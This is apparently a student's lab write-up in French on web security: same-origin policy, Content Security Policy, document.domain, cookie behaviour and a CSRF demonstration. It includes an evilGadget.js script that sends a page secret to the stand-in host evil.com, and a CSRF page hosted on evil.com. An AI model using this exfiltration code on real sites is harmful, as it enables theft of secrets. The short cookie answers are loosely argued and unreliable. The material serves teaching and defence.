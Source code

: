 # TP3

**Question 1 : Look at the code of [`integrator.html`](/src/tp3/ressources/integrator.html) and write code for `evilGadget.js` in such a way that evilGadget.js will send the secret to evil.com. Rewrite [`integrator.html`](/src/tp3/ressources/integrator.html) so the same origin policy will protect the secret.**

**Script : [tp3/ressources/integrator.html (localhost live)](http://host.com:8080/tp3/ressources/integrator.html) | [tp3/ressources/integrator.html (code)](/src/tp3/ressources/integrator.html)**

[evilGadget.js](/src/tp3/mycode/evilGadget.js)
[get_secret.php](/src/tp3/mycode/get_secret.php)

```js
const secret = document.getElementById("secret").innerText;

const urlAttackerSever = "http://evil.com:8080/tp3/mycode/get_secret.php";

const request = {
    method: "POST",
    headers: {
        'Content-Type': 'application/json',
    },
    body : JSON.stringify({ secret: secret })
};

fetch(urlAttackerSever, request)
```

**Deux solutions sont possibles :**

Ajouter un CSP (Content Security Policy) dans `integrator.html` pour empêcher le chargement du script `evilGadget.js` :

Il suffit d'ajouter la balise suivante dans le header de la page HTML :

```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self'">
```

Ou en transformant la page HTML en script PHP, et en ajoutant le header suivant :

```php
<?php header("Content-Security-Policy: script-src 'self'"); ?>
```

La deuxième solution est à privilégier.

Réponse v1 : [tp3/mycode/integrator_csp.html (localhost live)](http://host.com:8080/tp3/mycode/integrator_csp.html) | [tp3/mycode/integrator_csp.html (code)](/src/tp3/mycode/integrator_csp.html)

Réponse v2 : [tp3/mycode/integrator_csp.html (localhost live)](http://host.com:8080/tp3/mycode/integrator_csp.php) | [tp3/mycode/integrator_csp.html (code)](/src/tp3/mycode/integrator_csp.php)

On remarque que le script `evilGadget.js` n'est pas chargé :

```js
Refused to load the script 'http://evil.com/tp3/mycode/evilGadget_fetch.js' because it violates the following Content Security Policy directive: "script-src 'self'". Note that 'script-src-elem' was not explicitly set, so 'script-src' is used as a fallback
```

**La seconde :**

Pour mettre en place le *SOP* (Same Origin Policy), afin de protéger le secret, il faut mettre une balise `<iframe>` au lieu d'une balise script. Comme la balise `<iframe>` sont conçue pour charger une page HTML dans une autre page HTML. Nous allons devoir créer une page HTML sur le site **`evil.com`**, contenant une balise script ayant pour source **`evilGadget.js`**.

```html
<!-- page web HTML sur evil.com -->
<html>  
<head>  
    <script src="http://evil.com:8080/mycode/evilGadget_fetch.js"></script>  
</head>  
<body>  
<h1>  
    Page from evil.com  
</h1>  
</body>
```

Le gadget est le même vu précédemment.

Nous devons ensuite modifier la page **integrator.html** de manière suivante, afin de changer la balise script par une balise iframe

```html
<!-- integrator.html sur host.com -->
<html>  
<h1>  
    Trusted page  
  
    <div id=secret>  
        42  
    </div>  
</h1>  
  
<iframe src="http://evil.com:8080/mycode/page.html"></iframe>  
</html>
```

Finalement, le site `evil.com` ne peut plus récupérer le secret.

**Question 2 : Look at the [`sop2.html`](/src/tp3/ressources/sop2.html). From [`subdomain2.html`](/src/tp3/ressources/subdomainpage2.html) try to read the secret from the integrator, what happens according to SOP? How do you read the secret by using `document.domain`?**

Il n'est pas possible de récupérer le secret, car la source l'`iframe` ne provient pas de la même origine que le serveur hébergeant la page principale. La raison provient de la politique SOP appliquée par les iframes.

Pour pouvoir lire le secret, il faut changer le nom de domaine dans une balise script fournie par le serveur `subdomain.host.com`. Nous pouvons réaliser cela, en modifiant le fichier `subdomainpage.html` de la manière suivante :

```html
<html>  
<head>  
<h1> This is an iframe of different origin \(subdomain\)</h1>  
<script>  
    document.domain="host.com";  
    mydiv=document.getElementById("secret");  
    alert(mydiv.innerHTML);  
</script>  
</head>  
</html>
```

Nous devrions pouvoir afficher le secret dans une balise alert. Pour que cela fonctionne, il faut aussi modifier le fichier `sop2.html` de la manière suivante :

```html
<html>
<head>
</head>
<body>
    <div id=secret> The secret is 42 </div>
    <script> 
        document.domain = "host.com";
    </script>
    <iframe src="http://subdomain.host.com:8080/tp3/ressources/subdomainpage2.html"> </iframe>
</body>
</html>
```

Il faut que la page principale définisse explicitement la valeur de `document.domain`.

**Question 3 : Write two different services from the same server that set a cookie.**  
**On the client side include a gadget et an try the following things:**

- let the gadget delete the cookie via JavaScript
- can the second service delete the cookie of the first? Justify why.
- let the gadget send the cookie to another server (you can use a different port to simulate this)
- does the previous item work if the gadget is inside a frame?
  - and if the gadget is inside a script and the cookie is initially set as httpOnly?
  - and if the gadget is inside a script and the cookie is initially set as secure?  

**Justify all your answers with code and explanations.**

Le second service peut supprimer le cookie du premier car, les deux scripts appartiennent au même domaine. Ils partagent donc le même espace de stockage au niveau du navigateur, incluant les cookies.

S'il est à l'intérieur d'une frame oui, après ça dépend de la politique SameSite du cookie.

Si le gadget est à l'intérieur d'un script et qu'il est en httpOnly ou en secure, il sera également envoyé.

**Question 4 : Implement a CSRF attack and explain then demonstrate what kind of SameSite cookie can mitigate this attack.**

Pour implémenter une CSRF, nous devons avoir une page web hébergée, par exemple sur `evil.com` qui réalise une requête sur un autre site, par exemple `host.com`.`

[csrf_attack.html](/src/tp3/mycode/csrf_attack.html)

```html
<!-- Page sur evil.com -->
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
<h1>Attaque CSRF on evil.com to host.com</h1>
<script>
    const url = "http://host.com:8080/random_ressouce.html";
    window.location.replace(url);
</script>
</body>
</html>
```

Les cookies de `host.com` sont envoyés au cours de la requête.
